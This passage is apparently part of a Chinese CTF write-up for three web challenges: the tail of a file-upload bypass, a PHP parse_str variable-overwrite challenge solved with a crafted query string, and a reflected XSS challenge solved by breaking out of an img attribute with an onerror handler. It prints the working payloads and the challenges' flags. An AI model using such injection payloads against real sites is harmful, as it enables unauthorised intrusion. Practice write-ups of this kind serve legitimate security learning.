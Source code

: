 	Content-Type: image/jpeg
即可

flag为

	upload Success!flag:Upl00d30668ss9h97aFil3
## php是门松散的语言
[题目地址](http://218.76.35.75:20124 "题目地址")

看代码

	- - - - - - - source code - - - - - - - - - -

	$he ='goodluck';

	parse_str($_GET['heetian']);

	if $he = 'abcd';

	echo $flag;

	he=?
payload:

	http://218.76.35.75:20124/?heetian=he=abcd
flag为

	flag:C00d1uckf0rY0uuu

## 试试XSS
[题目地址](http://218.76.35.75:20125 "题目地址")

点开链接，有提示

	Hint: alert document.domain.
随便提交一个123

然后右键查看源代码，有个img标签

	<img src='123 /></form>
构造代码闭合
	<img src='233'onclick=alert(document.domain)/></form>
提交
	
	233'onclick=alert(document.domain)
然后点击一下页面上出现的图片，但是弹出了一个IP。。

	
	218.76.35.75
document.domain是指当前域名，并不是flag。不过这几天我XSS没白学,于是乎试了下另一种

	233'onerror=alert(document.domain)
我去。。flag出来了，再提交试试。。又不出来了。。
后经表哥提醒，单引号后面少个空格，最终是

	233' onerror=alert(document.domain)
flag为
